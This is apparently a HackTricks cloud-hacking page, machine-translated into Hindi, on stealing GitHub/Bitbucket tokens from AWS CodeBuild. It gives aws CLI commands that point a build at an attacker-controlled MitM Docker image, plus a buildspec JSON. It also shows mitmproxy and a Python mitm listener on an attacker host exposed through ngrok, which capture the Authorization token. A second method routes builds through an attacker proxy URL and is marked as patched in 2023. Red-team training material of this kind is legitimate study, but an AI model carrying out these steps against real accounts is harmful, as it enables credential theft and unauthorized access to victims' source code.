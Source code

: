 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन पुनर्प्राप्त करें

पहले, जांचें कि क्या कोई स्रोत क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **exfiltrate** उस **access** (**GH token या OAuth token**) को प्राप्त कर सकते हैं जिससे Codebuild को **एक विशिष्ट docker image** का उपयोग करने के लिए बनाया जा सके ताकि प्रोजेक्ट का निर्माण किया जा सके।

इसके लिए आप **एक नया Codebuild प्रोजेक्ट** बना सकते हैं या **Docker image** सेट करने के लिए मौजूदा एक का **environment** बदल सकते हैं।

आप जो Docker image उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत ही बुनियादी Docker image है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगा। यह आपको **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफ़िक को इंटरसेप्ट करने की अनुमति देगा और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा करेगा।

1. **Create & Upload your own Docker MitM image**
* अपने प्रॉक्सी IP पते को सेट करने और अपने SSL cert को सेट करने के लिए repo के निर्देशों का पालन करें और **docker image बनाएं**।
* **`http_proxy`** सेट न करें ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास Docker image बन जाए, तो **इसे एक सार्वजनिक repo** (Dockerhub, ECR...) पर **अपलोड करें**।
2. **Set the environment**
* **एक नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा एक के environment को **संशोधित** करें।
* प्रोजेक्ट को **पूर्व में उत्पन्न Docker image** का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* जैसा कि **Github repo** में संकेतित किया गया है, आप कुछ ऐसा उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy संस्करण 9.0.1 का उपयोग किया गया था**, रिपोर्ट किया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता।
{% endhint %}

4. **बिल्ड चलाएँ और क्रेडेंशियल्स कैप्चर करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

यह aws cli से कुछ इस तरह किया जा सकता है

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**यह कमजोरियों को AWS ने 20 फरवरी 2023 के सप्ताह में किसी समय (मुझे लगता है कि शुक्रवार को) ठीक किया। इसलिए एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियाँ हैं, वह Github/Bitbucket टोकन लीक कर सकता है** जो कॉन्फ़िगर किया गया है या यदि अनुमतियाँ OAuth के माध्यम से कॉन्फ़िगर की गई हैं, तो **कोड तक पहुँचने के लिए उपयोग किया जाने वाला अस्थायी OAuth टोकन**।

* एक हमलावर **http\_proxy** और **https\_proxy** पर्यावरण चर को CodeBuild प्रोजेक्ट में जोड़ सकता है जो उसकी मशीन की ओर इशारा करता है (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`)।

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* फिर, गिटहब रेपो का URL HTTP का उपयोग करने के लिए बदलें, HTTPS के बजाय, उदाहरण के लिए: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* फिर, प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट में [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बुनियादी उदाहरण चलाएँ।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **प्रोजेक्ट बनाएं** पर क्लिक करें, **प्रमाणपत्र** **स्पष्ट पाठ** (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपने मशीन से टोकन का उपयोग कर सकेगा, सभी विशेषाधिकारों की सूची बना सकेगा और (दुरुपयोग) कोडबिल्ड सेवा का सीधे उपयोग करने की तुलना में आसान तरीके से कर सकेगा।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
